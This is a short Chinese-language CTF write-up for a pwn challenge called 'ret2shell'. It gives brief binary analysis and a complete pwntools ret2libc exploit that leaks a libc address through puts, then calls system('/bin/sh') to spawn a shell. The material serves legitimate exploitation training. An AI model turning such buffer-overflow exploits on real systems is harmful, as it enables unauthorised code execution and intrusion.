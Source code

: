 # ret2shell 

## 文件分析

下载`ret2shell`, NX off, PIE off, RELRO off  
ghidra分析为64位程序

## 逆向

> .bss不可执行，且栈溢出的空间不足以放下shellcode，转而考虑**ret2libc**

打完moectf后记：shellcode放的下，但是不太好在栈上执行shellcode  
ret2libc过程参考moectf2023和cbctf的

## EXPLOIT

```python
from pwn import *
import LibcSearcher

sh = remote(???, 10032)
elf = ELF('ret2shell')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x400703
mainAddr = elf.symbols['main']

# payload 1
sh.sendline(b'x')
sh.sendlineafter(b':', b'0'*0x18 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'\n') # skip
data = sh.recv()
putsGotAddr = u64(data[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')
retAddr = 0x400696

# payload 2
sh.sendline(b'x')
sh.sendlineafter(b':', b'0'*0x18 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
